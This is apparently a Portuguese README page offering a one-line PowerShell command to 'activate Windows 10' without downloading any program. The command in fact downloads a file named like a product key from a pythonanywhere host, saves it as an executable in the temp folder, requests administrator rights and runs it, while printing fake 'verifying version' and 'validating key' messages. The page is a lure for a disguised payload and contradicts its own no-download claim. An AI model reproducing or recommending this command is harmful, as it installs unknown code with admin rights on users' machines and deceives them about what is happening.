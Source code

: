 


⚡ Como Ativar Windows 10 da Correta, Sem Baixar Programa. Ative o Windows 10 Apenas Usando Comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::: Copie o comando completo ...

> `$path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell Invoke-WebRequest -Verb runAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
`

